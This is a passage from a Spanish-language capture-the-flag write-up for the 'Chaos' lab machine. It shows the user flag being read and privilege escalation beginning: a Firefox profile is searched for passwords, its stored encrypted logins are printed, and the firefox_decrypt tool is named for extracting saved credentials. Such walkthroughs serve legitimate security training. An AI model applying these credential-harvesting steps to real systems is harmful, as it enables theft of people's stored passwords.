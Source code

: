 Ahora intentamos realizar comando:
```
ayush@chaos:/home$ cd ayush/
ayush@chaos:~$ ls -la
total 40
drwx------ 6 ayush ayush 4096 Feb 17 20:43 .
drwxr-xr-x 4 root  root  4096 Jun 30  2022 ..
drwxr-xr-x 2 root  root  4096 Jun 30  2022 .app
lrwxrwxrwx 1 root  root     9 Jul 12  2022 .bash_history -> /dev/null
-rw-r--r-- 1 ayush ayush  220 Oct 28  2018 .bash_logout
-rwxr-xr-x 1 root  root    22 Oct 28  2018 .bashrc
drwx------ 3 ayush ayush 4096 Feb 17 20:43 .gnupg
drwx------ 3 ayush ayush 4096 Feb 17 20:47 mail
drwx------ 4 ayush ayush 4096 Jun 30  2022 .mozilla
-rw-r--r-- 1 ayush ayush  807 Oct 28  2018 .profile
-rw------- 1 ayush ayush   33 Feb 17 18:41 user.txt
```

Vemos que ya podemos realizar todo con comodidad y nos hemos saltado le rbash.

Vemos algo interesante, el .mozilla, pero ahora vamos a ver la flag de usuario:
```
ayush@chaos:~$ cat user.txt
eeca3d989309ee3028a35
```
¡Bien! tenemos la flag, ahora tenemos que escalar privilegios.

## [](#header-2)Escalada de privilegios

Vimos un directorio firefox, antes de realizar otra cosa vamos a revisarlo, pues podrían existir cosas interesantes:
```
ayush@chaos:~/.mozilla/firefox$ ls
 bzo7sjt1.default  'Crash Reports'   profiles.ini
```

Vemos que hay una sesión, podría existir información que nos interese.

Si filtramos por ejemplo por password:
```
ayush@chaos:~/.mozilla/firefox/bzo7sjt1.default$ grep -r -i password 2>/dev/null
Binary file webappsstore.sqlite matches
logins.json:{"nextId":3,"logins":[{"id":2,"hostname":"https://chaos.htb:10000","httpRealm":null,"formSubmitURL":"https://chaos.htb:10000","usernameField":"user","passwordField":"pass","encryptedUsername":"MDIEEPgAAAAAAAAAAAAAAAAAAAEwFAYIKoZIhvcNAwcECDSAazrlUMZFBAhbsMDAlL9iaw==","encryptedPassword":"MDoEEPgAAAAAAAAAAAAAAAAAAAEwFAYIKoZIhvcNAwcECNx7bW1TuuCuBBAP8YwnxCZH0+pLo6cJJxnb","guid":"{cb6cd202-0ff8-4de5-85df-e0b8a0f18778}","encType":1,"timeCreated":1540642202692,"timeLastUsed":1540642202692,"timePasswordChanged":1540642202692,"timesUsed":1}],"disabledHosts":[],"version":2}
Binary file key4.db matches
```

Vemos cosas, asi que vamos a utilizar una heramienta llamada `firefox decrypt` que está en [github](https://github.com/unode/firefox_decrypt) esto nos permitirá extraer las contraseñas que se encuentren almacenadas.
